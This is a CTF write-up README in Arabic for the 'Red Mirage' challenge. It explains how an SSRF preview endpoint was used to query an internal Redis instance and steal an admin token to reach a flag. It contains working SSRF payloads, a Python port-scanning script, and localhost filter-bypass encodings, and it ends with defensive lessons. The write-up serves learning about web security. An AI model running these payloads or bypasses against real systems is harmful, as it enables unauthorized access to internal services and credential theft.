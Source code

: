 # redMirage

### [writeup](https://medium.com/@aliyasser0115139/red-mirage-challenge-writeup-the-mirage-that-shattered-6ca0de7d9fe8)

---

# Red Mirage CTF Writeup – SSRF & Redis Exploitation

## مقدمة
تحدي Red Mirage بيقع ضمن فئة **Web Exploitation / SSRF**.  
الموقع بيوفر خاصية لمعاينة روابط عن طريق endpoint `/preview?url=`.  
الثغرة كانت إننا نقدر نستغل الميزة دي للوصول لخدمات داخلية غير مخصصة للمستخدمين.

---

## ما هو SSRF؟
**SSRF (Server-Side Request Forgery)** هي ثغرة بتسمح للمهاجم بخداع السيرفر عشان يزور URLs هو نفسه مش المفروض يزورها.  
ده ممكن يستخدم للوصول لخدمات داخلية زي قواعد بيانات، Redis، أو حتى الـ cloud metadata.

---

## Redis – نظرة سريعة
- **Redis** قاعدة بيانات in-memory سريعة جدًا بتخزن بيانات على شكل key-value.  
- بتُستخدم غالبًا في:
  - تخزين الـ sessions
  - caching
  - queues
- البروتوكول بتاعها مش HTTP، لكنه بسيط وبيشتغل على TCP افتراضيًا على المنفذ **6379**.

---

## اكتشاف Redis داخليًا
### 1. جرب الوصول إلى localhost
```
/preview?url=http://127.0.0.1
```
لو السيرفر بيرد، ده معناه إنه بيقدر يوصل للخدمات الداخلية.

### 2. جرب بروتوكولات مختلفة
```
/preview?url=redis://127.0.0.1:6379/
```
لو البروتوكول `redis://` مقبول، غالبًا Redis شغالة.

### 3. فحص المنافذ (Port Scan)
- جرب منافذ شائعة: 80, 443, 6379, 3306, 27017 … إلخ
- باستخدام SSRF:
```
/preview?url=http://127.0.0.1:6379
```
- لو رجع خطأ مختلف عن "Connection refused"، يبقى المنفذ مفتوح.

### 4. ملاحظة مهمة
استخدام `http://` هنا بس عشان نعمل اختبار مبدئي للمنفذ، مش علشان Redis بتتكلم HTTP.

---


##  استخدام أوامر Redis لكشف كل الـ keys


لو الـ SSRF يسمح بتنفيذ أوامر Redis متعددة، ممكن تستخدم: 

```perl
/preview?url=redis://127.0.0.1:6379/KEYS%20*
```

---

## استغلال Redis
بمجرد اكتشاف Redis مفتوح على 6379، نستخدم بروتوكول `redis://`:
```
/preview?url=redis://127.0.0.1:6379/GET%20admin_token
```
ده بيرجع قيمة `admin_token`.

---

## استخدام التوكن
بعد ما نجيب التوكن:
```
Jj7YWT7wYyUSsDre8EfbKu05t3lQdeV3PyVJ
```
بنستخدمه للوصول لـ endpoint محمي:
```
/admin/flag?token=Jj7YWT7wYyUSsDre8EfbKu05t3lQdeV3PyVJ
```
بيرجع JSON فيه الفلاج:
```
{
  "flag": "nileN1nja{...}",
  "message": "Congratulations! You've successfully exploited the SSRF vulnerability.",
  "success": true
}
```

---

## الدروس المستفادة
- لازم تمنع **بروتوكولات غير HTTP/HTTPS**.
- ممنوع الوصول لعناوين داخلية زي `127.0.0.1`, `169.254.x.x`, `::1`.
- حماية الخدمات الداخلية زي Redis بكلمة مرور أو فايروال.
- الاعتماد على توكن واحد في المصادقة ضعيف جدًا.

---

## خطوات الهجوم بشكل مختصر
1. اكتشاف endpoint فيه SSRF (`/preview?url=`).
2. تجربة الوصول لـ 127.0.0.1 ومنافذ شائعة.
3. تأكيد وجود Redis على المنفذ 6379.
4. استخدام بروتوكول redis:// لتنفيذ أوامر GET.
5. استخراج `admin_token`.
6. استخدام التوكن للوصول لـ `/admin/flag` والحصول على الفلاج.























----
---
---

<details>
  <summary>know ports open on ssrf</summary>


# اكتشاف المنافذ المفتوحة عبر SSRF – شرح عملي

## مقدمة
في اختبارات الاختراق وCTFs، SSRF أحيانًا بيكون مدخلك لفحص الشبكة الداخلية للسيرفر.  
ممكن نستغل الـ SSRF لنعرف أي المنافذ (Ports) مفتوحة على localhost أو شبكات داخلية.

---

## ليه بنعمل Port Scanning عبر SSRF؟
- نعرف الخدمات الداخلية اللي مش مكشوفة للعالم الخارجي.
- نحدد هل في Redis, MySQL, MongoDB، إلخ.
- نجهز نفسنا للاستغلال بعد ما نعرف الخدمة المفتوحة.

---

## الطرق المستخدمة

### 1. تجربة بروتوكولات مختلفة
SSRF أحيانًا بيسمحلك تستخدم بروتوكولات متعددة زي:
- `http://`
- `file://`
- `gopher://`
- `redis://`

لو `redis://` شغال وبيستجيب → في خدمة Redis على السيرفر.

---

### 2. تجربة منافذ معروفة
نبدأ بالمنافذ الشائعة للخدمات:

- **3306** → MySQL
- **5432** → PostgreSQL
- **6379** → Redis
- **27017** → MongoDB
- **80/443** → HTTP/HTTPS
- **8080, 5000** → Web apps dev/test

نغير `url=` زي كده:
```
/preview?url=http://127.0.0.1:6379
```
- لو رجع خطأ مختلف عن "Connection refused"، يبقى المنفذ مفتوح.

---

### 3. Port Scanning كامل خطوة بخطوة

#### **خطوة 1:** تأكد إن SSRF بيقدر يوصل localhost
```
/preview?url=http://127.0.0.1
```
لو في استجابة، يبقى نقدر نكمل.

#### **خطوة 2:** جرّب كل منفذ محتمل
نعمل script صغير (مثال Python) يجرب منافذ محددة:

```python
import requests

target = "http://vulnerable.site/preview?url=http://127.0.0.1:"
ports = [80, 443, 6379, 27017, 3306, 8080, 5000]

for port in ports:
    url = target + str(port)
    r = requests.get(url)
    if "Connection refused" not in r.text:
        print(f"[+] Port {port} might be open!")
```

#### **خطوة 3:** لو منفذ مفتوح
- نحدد نوع الخدمة (Redis, MySQL, إلخ).
- نستخدم البروتوكول المناسب:  
  - `redis://` لـ Redis  
  - `mysql://` لـ MySQL (نادراً)  
  - أو نكلم الخدمة مباشرة بأوامرها.

---

## ملاحظات مهمة
- بعض الفلاتر تمنع `127.0.0.1` أو `localhost` → نستخدم bypass مثل:
  - `http://2130706433`
  - `http://0x7f000001`
  - `http://127.1`
  - `http://[::1]`

- بنبدأ بالمنافذ المشهورة وبعدها لو محتاجين نعمل brute-force أوسع.

---

## الخلاصة
1. تأكد إن SSRF يقدر يوصل عناوين داخلية.  
2. اعمل Port Scan على المنافذ الشائعة.  
3. لو لقيت منفذ مفتوح → حدد الخدمة واستغلها ببروتوكولها المناسب.







  
</details>






















